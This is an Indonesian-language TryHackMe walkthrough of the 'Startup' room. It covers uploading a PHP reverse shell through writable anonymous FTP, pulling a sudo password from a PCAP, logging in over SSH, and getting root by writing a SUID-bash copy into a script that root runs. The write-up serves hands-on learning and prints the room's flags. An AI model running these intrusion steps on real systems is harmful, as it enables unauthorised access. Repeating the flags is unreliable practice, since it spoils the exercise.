






# Startup — TryHackMe Writeup

**Target:** Startup  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** FTP, File Upload, PCAP Analysis, Privilege Escalation  

---

## Recon

Dimulai dengan nmap untuk map service yang berjalan.

```bash
nmap -T4 TARGET_IP -p- -Pn -min-rate 5000
```

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Tiga port terbuka. FTP pada port 21 menarik perhatian karena sering memiliki misconfiguration. Dilanjutkan dengan service enumeration:

```bash
nmap -T4 -sC -sV -p21,22,80 TARGET_IP -o nmap/nmap.txt
```



Ditemukan:
- FTP vsftpd 3.0.3 dengan anonymous login allowed
- SSH OpenSSH 7.2p2 Ubuntu
- HTTP Apache 2.4.18 dengan title "Maintenance"

FTP anonymous login terlihat sebagai entry point yang paling potensial.

---

## FTP Enumeration

```bash
ftp TARGET_IP
# Name: anonymous
# Password: (kosongkan)
```

Login berhasil sebagai anonymous. Directory listing menunjukkan:



```
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

Dua file menarik ditemukan. Directory `ftp` memiliki permission `drwxrwxrwx` — ini mengindikasikan bahwa direktori writable oleh siapapun. File `important.jpg` berukuran besar (250KB+) padahal seharusnya gambar, dan `notice.txt` terlihat seperti pesan.

Download kedua file untuk analisis lebih lanjut:

```bash
ftp> get notice.txt
ftp> get important.jpg
ftp> quit
```

Isi `notice.txt`:

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. 
People downloading documents from our website will think we are a joke! 
Now I dont know who it is, but Maya is looking pretty sus.
```

Pesan ini mengindikasikan ada user yang disebut "Maya" — calon credential untuk eksploitasi di masa depan. File `important.jpg` hanya berisi meme Among Us, tidak ada data penting.


Namun, insight penting didapat: file dapat diunggah ke FTP karena direktori writable. Ini adalah potential entry point untuk upload shell.

---

## Web Enumeration

```bash
curl http://TARGET_IP/
```

Homepage hanya menampilkan maintenance message dari development team. Tidak ada yang terlihat di UI. Fuzzing directory dilakukan menggunakan feroxbuster:

```bash
feroxbuster -u http://TARGET_IP/ -w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -d 3
```

Hasil menunjukkan:

```
http://TARGET_IP/files => http://TARGET_IP/files/
http://TARGET_IP/files/important.jpg
http://TARGET_IP/files/notice.txt
http://TARGET_IP/files/ftp/
```

Interesting discovery: file yang ada di FTP juga accessible di `/files/` directory di web. Ini berarti FTP directory di-share melalui web server. Dan yang lebih penting — direktori `/files/` di-serve melalui web, mengindikasikan bahwa file yang di-upload ke FTP kemungkinan bisa diakses dan dieksekusi melalui HTTP.

---

## Initial Access — File Upload via FTP + RCE

Hipotesis: jika FTP directory writable dan file-file di FTP di-serve melalui web sebagai PHP, maka upload shell.php ke FTP seharusnya menghasilkan reverse shell saat diakses melalui browser.

Upload PHP shell ke FTP:

```bash
ftp TARGET_IP
ftp> put shell.php
# Local: shell.php   Remote: shell.php
# 200 PORT command successful
# 150 Ok to send data
# 226 Transfer complete
```



Verifikasi file di FTP:

```bash
ftp> dir
# -rwxrwxr-x    1 112      118          2591 Aug 01 22:02 shell.php
```

File berhasil di-upload dengan executable permission. Sekarang akses shell melalui web:

```bash
nc -lvnp 4444
curl http://TARGET_IP/files/ftp/shell.php
```



Reverse shell berhasil — shell diperoleh sebagai user `www-data`.

---

## Post Exploitation — Discovery & Analysis

Setelah mendapat shell, langsung di-cari file menarik di root directory:

```bash
ls -la / | grep -E "^d"
```

Ditemukan direktori `/incidents` yang mencurigakan. Inside:

```bash
ls -la /incidents
# -rw-r--r-- 1 root root 456928 Nov 12 2020 suspicious.pcapng
```

PCAP file (packet capture) mengindikasikan network traffic yang telah direkam — kemungkinan besar berisi informasi sensitif atau credential.

Download PCAP ke mesin attacker untuk analisis. HTTP server di-setup di target karena tidak ada module Python:

```bash
# Di target (www-data shell):
php -S 0.0.0.0:8000

# Di attacker:
wget http://TARGET_IP:8000/suspicious.pcapng
```

PCAP dianalisis menggunakan tshark. Ada banyak traffic, tapi karena output-nya sangat banyak, GPT diminta untuk membantu parse hasil tshark. Dari analisis:

```
[sudo] password for www-data:
        19
c4ntg3t3n0ughsp1c3
```

Ada percobaan sudo dengan password `c4ntg3t3n0ughsp1c3` yang menunjukkan error (wrong password untuk www-data). Password ini kemungkinan milik user lain — hipotesis: user `lennie` yang dilihat di `/etc/passwd`.

---

## Lateral Movement — SSH sebagai lennie

Coba SSH dengan credential `lennie:c4ntg3t3n0ughsp1c3`:

```bash
ssh lennie@TARGET_IP
# password: c4ntg3t3n0ughsp1c3
```



Login berhasil. Sekarang shell diperoleh sebagai user `lennie`. Explore home directory:

```bash
ls -la /home/lennie
```

```
drwxr-xr-x 2 lennie lennie 4096 Nov 12 2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12 2020 scripts
-rw-r--r-- 1 lennie lennie  139 Nov 12 2020 user.txt
```

Folder `scripts` dimiliki root namun accessible oleh lennie. Ini mencurigakan.

---

## Privilege Escalation — Script Injection

Examine direktori Documents:

```bash
cat Documents/concern.txt
# I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie

cat Documents/list.txt
# Shoppinglist: Cyberpunk 2077 | Milk | Dog food

cat Documents/note.txt
# Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
```

Documents hanya berisi note biasa. Focus ke folder `scripts`:

```bash
ls -la scripts/
# total 16
# drwxr-xr-x 2 root   root   4096 Nov 12 2020 .
# drwx------ 5 lennie lennie 4096 Aug  1 22:50 ..
# -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
# -rw-r--r-- 1 root   root      1 Aug  1 22:54 startup_list.txt
```

`planner.sh` dimiliki root namun executable. Isinya:

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

Script ini calls `/etc/print.sh`. Check permission:

```bash
ls -l /etc/print.sh
# -rwx------ 1 lennie lennie 25 Nov 12 2020 /etc/print.sh
```

Critical discovery: `planner.sh` dimiliki dan dijalankan sebagai root (diasumsikan via cron), tapi script ini memanggil `/etc/print.sh` yang dimiliki oleh lennie dengan write permission. Ini adalah classic privilege escalation via script injection.

Isi `/etc/print.sh`:

```bash
#!/bin/bash
echo "Done!"
```

Hipotesis: jika `planner.sh` berjalan sebagai cron job dengan root privilege, dan script itu calls `/etc/print.sh` yang writable oleh lennie, maka mengedit `/etc/print.sh` akan menghasilkan command execution sebagai root.

Inject payload ke `/etc/print.sh`:

```bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash' > /etc/print.sh
```

Payload ini membuat copy SUID bash ke `/tmp`. Tunggu beberapa saat (kemungkinan cron job berjalan):

```bash
/tmp/rootbash -p
# uid=0(root) gid=1000(lennie) groups=1000(lennie)
```



Root shell berhasil diperoleh.

---

## Flags

User flag:

```bash
cat /home/lennie/user.txt
# THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

Root flag:

```bash
cat /root/root.txt
# THM{f963aaa6a430f210222158ae15c3d76d}
```

Recipe:

```bash
cat /recipe.txt
# love
```

---

## Takeaway

Tiga poin penting dari room ini. Pertama, FTP writable directory yang di-share melalui web adalah high-risk misconfiguration — bisa langsung di-exploit untuk upload shell. Kedua, PCAP files sering menyimpan traffic yang tidak ter-encrypt (terutama protokol lama seperti FTP atau clear-text credentials di network), analisis PCAP bisa membuka lateral movement paths yang tidak terlihat dari Nmap atau web enumeration. Ketiga, script injection melalui writable file yang di-call oleh privileged script adalah classic privesc vector — selalu check permissions pada file yang di-execute oleh cron jobs atau privileged processes.

